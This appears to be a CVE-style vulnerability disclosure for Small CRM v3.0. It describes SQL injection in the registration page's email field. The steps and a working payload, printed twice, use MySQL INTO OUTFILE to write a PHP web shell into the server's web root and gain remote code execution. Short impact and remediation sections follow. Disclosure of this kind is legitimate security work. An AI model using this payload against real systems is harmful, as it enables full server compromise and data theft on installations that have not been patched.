 # CVE-2024-xxxx
- Exploit Author: nikhil-aniill

# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE) via the Outfile functionality of MySQL. This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - ![Intercepted Request](reg_req.png)
5. Send the intercepted request to the repeater.
7. Inject a SQL injection payload into the email field, observing the writing of a webshell into the filesystem for persistence mechanisms.
   - ```sql '+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#```
   - ![Payload Execution](sqli_payload.png)
9. Modify the payload to access the webshell on the server and utilize it to gain complete access to the web server.
10. Access the URL associated with the generated file, triggering a Remote Code Exeuction.
    - ![RCE](rce.png)

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots
![Affected Code](code.png)

## References
